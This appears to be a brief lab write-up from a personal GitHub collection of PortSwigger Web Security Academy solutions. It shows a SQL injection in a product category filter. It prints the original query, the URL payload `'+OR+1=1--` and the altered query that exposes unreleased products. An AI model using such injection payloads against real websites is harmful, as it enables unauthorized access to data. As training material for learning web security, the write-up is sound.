 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a27b5c93-30a8-48a3-af1e-451be7292444)

## Solution : 

Query made --

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To  display one or more unreleased products in Gifts i add `'+OR+1=1--` to the url Qurey. 

 Changed Query 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7316a072-52ca-4e54-9468-fcfe722b2eac)
